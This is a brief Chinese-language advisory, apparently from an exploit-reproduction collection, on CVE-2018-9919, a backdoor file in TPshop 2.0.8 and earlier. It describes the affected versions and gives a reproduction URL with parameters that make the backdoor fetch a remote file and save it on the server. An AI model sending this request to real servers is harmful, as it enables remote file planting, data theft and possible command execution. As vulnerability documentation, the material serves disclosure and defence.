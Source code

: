 （CVE-2018-9919）Thinkphp Shop后门
==================================

一、漏洞简介
------------

该漏洞源于/vendor/phpdocumentor/reflection-docblock/tests/phpDocumentor/Reflection/DocBlock/Tag/LinkTagTeet.php可以将文件下载到其他服务器上。远程攻击者可利用该漏洞获取敏感信息，并可能执行命令。

二、漏洞影响
------------

Backdoor in Tpshop \<= 2.0.8

三、复现过程
------------

攻击者可以利用此漏洞来攻击服务器并增加其特权，例如：下载任意文件PS！扫描网络端口PS！信息检测，攻击内部网络易受攻击的服务器。

http://www.0-sec.org/vendor/phpdocumentor/reflection-docblock/tests/phpDocumentor/Reflection/DocBlock/Tag/LinkTagTeet.php?bddlj=save\_filename&down\_url=download\_url&jmmy=decry
